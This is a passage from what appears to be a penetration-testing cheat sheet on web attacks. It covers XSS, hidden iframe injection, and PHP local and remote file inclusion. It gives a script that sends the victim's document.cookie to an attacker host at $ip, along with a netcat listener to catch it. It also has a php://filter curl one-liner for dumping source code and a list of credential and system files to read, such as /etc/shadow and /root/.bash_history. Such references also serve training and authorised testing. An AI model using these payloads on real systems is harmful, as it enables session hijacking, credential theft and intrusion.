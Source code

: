     -   Essential Iceweasel Add-ons  
        Cookies Manager
        https://addons.mozilla.org/en-US/firefox/addon/cookies-manager-plus/  
        Tamper Data  
        https://addons.mozilla.org/en-US/firefox/addon/tamper-data/

    -   Cross Site Scripting (XSS)  
        significant impacts, such as cookie stealing and authentication
        bypass, redirecting the victim’s browser to a malicious HTML
        page, and more

    -   Browser Redirection and IFRAME Injection  
        &lt;iframe SRC="http://$ip/report" height = "0" width
        ="0"&gt;&lt;/iframe&gt;

    -   Stealing Cookies and Session Information  
        &lt;script&gt;  
        new
        image().src="http://$ip/bogus.php?output="+document.cookie;  
        &lt;/script&gt;  
        nc -nlvp 80

-   File Inclusion Vulnerabilities 
    -----------------------------------------------------------------------------------------------------------------------------

    -   Local (LFI) and remote (RFI) file inclusion vulnerabilities are
        commonly found in poorly written PHP code.

    -   fimap - There is a Python tool called fimap which can be
        leveraged to automate the exploitation of LFI/RFI
        vulnerabilities that are found in PHP (sqlmap for LFI):  
        [*https://github.com/kurobeats/fimap*](https://github.com/kurobeats/fimap)

        -   Gaining a shell from phpinfo()  
            fimap + phpinfo() Exploit - If a phpinfo() file is present,
            it’s usually possible to get a shell, if you don’t know the
            location of the phpinfo file fimap can probe for it, or you
            could use a tool like OWASP DirBuster.

    -   For Local File Inclusions look for the include() function in PHP
        code.  
        include("lang/".$\_COOKIE\['lang'\]);  
        include($\_GET\['page'\].".php");

    -   LFI - Encode and Decode a file using base64  
        curl -s
        http://$ip/?page=php://filter/convert.base64-encode/resource=index
        | grep -e '\[^\\ \]\\{40,\\}' | base64 -d

    -   LFI - Download file with base 64 encoding  
        [*http://$ip/index.php?page=php://filter/convert.base64-encode/resource=admin.php*](about:blank)

    -   LFI Linux Files:  
        /etc/issue  
        /proc/version  
        /etc/profile  
        /etc/passwd  
        /etc/passwd  
        /etc/shadow  
        /root/.bash\_history  
        /var/log/dmessage  
        /var/mail/root  
        /var/spool/cron/crontabs/root
